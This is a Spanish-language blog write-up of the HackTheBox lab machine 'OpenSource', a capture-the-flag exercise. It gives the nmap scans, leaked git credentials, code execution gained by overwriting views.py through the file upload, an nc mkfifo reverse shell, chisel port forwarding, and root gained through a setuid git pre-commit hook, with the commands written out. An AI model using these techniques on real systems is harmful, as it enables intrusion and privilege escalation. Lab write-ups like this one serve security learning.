 ```yaml
---
layout:   post
title:    "Write Up OpenSource. "
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy,Linux,Github,LFI,RCE,Chisel,CronJob,SSTI,XXE,Write-Up-Machine,Starting-Point,eWPT,eWPTX,OSWE,OSCP,eCPPT] 
---
```

![list](/assets/img/opensource/opensource.png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -sS -n -vvv -Pn 10.10.11.164 -oA allports
```

El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/opensource/Parrot-SO3-2022-08-24-16-10-05.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que versiones y servicios que corren en los mismo de ahi podremos determinara posibles vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p22,8080 -sV -sC 10.10.11.170 -oN target
```

El paso anterior no es nesesario ser (root).
{:.note title="Attention"}


***

## Analisis de vulnerabilidades

Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros e ispeccionamos la web.

Inpeccionamos las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con wapalizzer o whatweb.


![list](/assets/img/opensource/Parrot-SO3-2022-08-24-16-07-07.png){:.lead width="800" height="100" loading="lazy"}


En una seccion de la web podemos cargar un archivo. 
{:.note}


Whatweb identificar tecnologuias atraves del terminal o wappalizer atraves de la web.

![list](/assets/img/opensource/Parrot-SO3-2022-08-24-16-06-20.png){:.lead width="800" height="100" loading="lazy"}

Nos descargamos el codigo fuente que encontramos al inspeccionar la web.

![list](/assets/img/opensource/1.png){:.lead width="800" height="100" loading="lazy"}

Descomprimimos el zip y encontramos que hay un directorio .git, y buscando entre branchs y commits encontramos credenciales.

![list](/assets/img/opensource/Kali-2022-08-25-16-22-37.png){:.lead width="800" height="100" loading="lazy"}

Encontramos una credencial `dev01:Soulless_Developer#2022`. 
{:.note}

Si seguimos mirando en app/app/ hay un archivo views.py que es el que almacena las funciones ademas guindonos por las funciones de arriba podemos definir nuestra propia función y agregarla al final para mas adelante subirla y ejecutar comandos.

![list](/assets/img/opensource/Parrot-SO3-2022-08-24-17-48-36.png){:.lead width="800" height="100" loading="lazy"}

De esta forma  podremos ver el /etc/host y tambien el /.ssh/id_rsa. 
{:.note}

Lo subimos desde `http://10.10.11.164/upload` pero interceptaremos con burpsuite y cambiaremos la ruta a `/app/app/views.py` para sobreescribir el actual de la máquina y damos a forward.

![list](/assets/img/opensource/Parrot-SO3-2022-08-24-18-54-52.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Si todo salió bien la función deberia de funcionar entonces nos haremos una reverse shell con `nc mkfifo`, urlencodeando lo que pueda dar problemas,levantamos un listener en el puerto 443.


Tenenos shell como root en un contenedor, pero ahora tenemos conexión con el puerto 3000 de la maquina real que veiamos filtered, asi que subiremos chisel y enviaremos el puerto a nuestro equipo local.


```bash
chisel server --reverse --port 8000
```

Esto en la maquina atacante.
{:.note}


```bash
./chisel client 10.10.16.31:8000 R:3000:172.17.0.1:3000
```

Esto en la maquina victima.
{:.note}

Si abrimos en el navegador el localhost en el puerto 3000 vemos un panel de gitea podemos 
usar las credenciales que encontramos al inicio `dev01:Soulless_Developer#2022`.

{:.note}
Ya como dev01 podemos ver un repositorio "home-backup" que tiene unas claves ssh que podemos probar para conectarnos.

![list](/assets/img/opensource/Kali-2022-08-25-16-37-32.png){:.lead width="800" height="100" loading="lazy"}

Buscamos la flag de en el escritorio.
{:.note}

***
## Explotacion

Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar de privilegios, ademas hasta que se ejecute los anteriores podemos buscar los permisos con el comado find con el siguite comado.

En [gtfobins] vemos un ejemplo abusando del pre-commit, podemos intentarlo y después de un minuto nos convertimos en root.

[gtfobins]: https://gtfobins.github.io/gtfobins/git/

```bash
echo "chmod u+s /bin/bash" >> ~/.git/hooks/pre-commit
```

Le damos permiso setuid.
{:.note}

```bash
chmod +x !$
```

Le damos permisos de ejecucion.
{:.note}

```bash
bash -p
```

Ya somos root, buscamos la flag en el escritorio del root.
{:.note}

***

```shell
🎉 Felicitaciones ya has comprometido OpenSource de HackTheBox 🎉
```
{:.centered}
***
